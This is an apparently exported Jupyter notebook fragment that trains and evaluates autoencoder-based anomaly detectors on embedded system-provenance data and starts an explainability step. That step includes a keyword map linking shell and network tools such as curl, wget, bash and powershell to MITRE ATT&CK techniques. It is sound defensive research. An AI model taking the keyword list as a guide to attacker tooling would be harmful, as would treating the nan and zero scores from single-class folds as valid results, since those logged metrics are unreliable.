        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        auc = roc_auc_score(y_test, errors)
    except:
        auc = 0.0

    try:
        # Calculate DCG based on model predictions (errors used as scores)
        dcg = dcg_score([y_test], [errors])
        # Calculate IDCG using the true labels as the perfect ranking scores
        idcg = dcg_score([y_test], [y_test])
        # nDCG is the normalized ratio
        ndcg = ndcg_score([y_test], [errors])
    except Exception as e:
        dcg, idcg, ndcg = 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "DCG": round(dcg, 4),
        "IDCG": round(idcg, 4),
        "nDCG": round(ndcg, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | nDCG: {res['nDCG']} (DCG: {res['DCG']}, IDCG: {res['IDCG']})")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'DCG', 'IDCG', 'nDCG', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll_jina
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9279 | nDCG: 0.3311 (DCG: 1.4088, IDCG: 4.2545)
    -> Training Sparse... Done. AUC: 0.7159 | nDCG: 0.2821 (DCG: 1.2002, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.9466 | nDCG: 0.3652 (DCG: 1.5538, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.8931 | nDCG: 0.306 (DCG: 1.302, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.7953 | nDCG: 0.2632 (DCG: 1.1197, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.6422 | nDCG: 0.2751 (DCG: 1.1702, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.8123 | nDCG: 0.2875 (DCG: 1.223, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.9399 | nDCG: 0.3177 (DCG: 1.3517, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9365 | nDCG: 0.3113 (DCG: 1.3245, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9354 | nDCG: 0.317 (

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Loca

Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll_jina
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.9968 | nDCG: 0.7626 (DCG: 15.9686, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.7408 | nDCG: 0.3487 (DCG: 7.3018, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.5049 | nDCG: 0.3581 (DCG: 7.4986, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9342 | nDCG: 0.4441 (DCG: 9.2979, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.7032 | nDCG: 0.3471 (DCG: 7.2678, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.7067 | nDCG: 0.3473 (DCG: 7.2723, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.7576 | nDCG: 0.352 (DCG: 7.3695, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.7552 | nDCG: 0.3524 (DCG: 7.3785, IDCG: 20.9387)
    -> Training LSTMAE... Done. AUC: 0.9949 | nDCG: 0.6962 (DCG: 14.5769, IDCG: 20.9387)
    -> Training Robust... Done. AUC: 0.9984 | nDCG: 0.8073 (DCG: 16.9042, IDCG

In [15]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
EMBEDDING_NAME = "jina" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}_v3"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}_v3"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] jinaai/jina-embeddings-v3 uses 1024 dimensions by default
INPUT_DIM = 1024 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    base_context = context.replace('_jina', '') # Cleans context in case it is "ProcessAll_jina"
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for JINA on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll_jina
    -> Baseline Done! F1: 0.0952 | PR-AUC: 0.0412
    -> Sparse Done! F1: 0.0833 | PR-AUC: 0.0198
    -> Deep SVDD Done! F1: 0.1739 | PR-AUC: 0.0616
    -> DAE Done! F1: 0.0833 | PR-AUC: 0.0284
    -> VAE Done! F1: 0.1026 | PR-AUC: 0.0209
    -> Beta-VAE Done! F1: 0.0833 | PR-AUC: 0.0173
    -> GMVAE Done! F1: 0.0833 | PR-AUC: 0.0222
    -> Attention AE Done! F1: 0.0784 | PR-AUC: 0.0366
    -> LSTMAE Done! F1: 0.08 | PR-AUC: 0.0341
    -> Robust Done! F1: 0.0828 | PR-AUC: 0.0362
    -> Contractive Done! F1: 0.08 | PR-AUC: 0.0187

Evaluating: 5DIR - ProcessEvent_jina
    -> Baseline Done! F1: 0.0538 | PR-AUC: 0.0178
    -> Sparse Done! F1: 0.1127 | PR-AUC: 0.0299
    -> Deep SVDD Done! F1: 0.0611 | PR-AUC: 0.0223
    -> DAE Done! F1: 0.1111 | PR-AUC: 0.0281
    -> VAE Done! F1: 0.1096 | PR-AUC: 0.0305
    -> Beta-VAE Done! F1: 0.1111 | PR-AUC: 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0
    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll_jina
    -> Baseline Done! F1: 0.6264 | PR-AUC: 0.5016
    -> Sparse Done! F1: 0.0094 | PR-AUC: 0.0035
    -> Deep SVDD Done! F1: 0.0194 | PR-AUC: 0.0051
    -> DAE Done! F1: 0.0875 | PR-AUC: 0.0253
    -> VAE Done! F1: 0.0078 | PR-AUC: 0.0031
    -> Beta-VAE Done! F1: 0.0078 | PR-AUC: 0.003
    -> GMVAE Done! F1: 0.0103 | PR-AUC: 0.0037
    -> Attention AE Done! F1: 0.0099 | PR-AUC: 0.0037
    -> LSTMAE Done! F1: 0.5376 | PR-AUC: 0.3564
    -> Robust Done! F1: 0.6316 | PR-AUC: 0.5762
    -> Contractive Done! F1: 0.0103 | PR-AUC: 0.0036

Evaluating: THEIA - ProcessEvent_jina
    -> Baseline Done! F1: 0.7534 | PR-AUC: 0.728
    -> Sparse Done! F1: 0.0051 | PR-AUC: 0.0019
    -> Deep SVDD Done! F1: 0.0943 | PR-AUC: 0.0434
    -> DAE Done! F1: 0.0214 | PR-AUC: 0.0073
    -> VAE Done! F1: 0.005 | PR-AUC: 0.0016
    -> Beta-VAE Done! F1: 0.005 | PR-AUC: 0.0017
    -> GMVA

#### XAI integration and MITRE ATT&CK mapping

In [1]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. TRANSFORMERS 5.0+ HOTFIX FOR JINA V3
# ==========================================
# Safety check to prevent infinite recursion if the cell is run multiple times
if not hasattr(torch.nn.Module, "_jina_patched"):
    _orig_getattr = torch.nn.Module.__getattr__
    def _patched_getattr(self, name):
        if name == "all_tied_weights_keys":
            return {}
        return _orig_getattr(self, name)
    torch.nn.Module.__getattr__ = _patched_getattr
    torch.nn.Module._jina_patched = True # Flag so it never applies twice

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [JINA V3 UPDATE] 
EMBEDDER_NAME = "jinaai/jina-embeddings-v3" 
INPUT_DIM = 1024  # Critical: Jina v3 uses 1024 dimensions!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
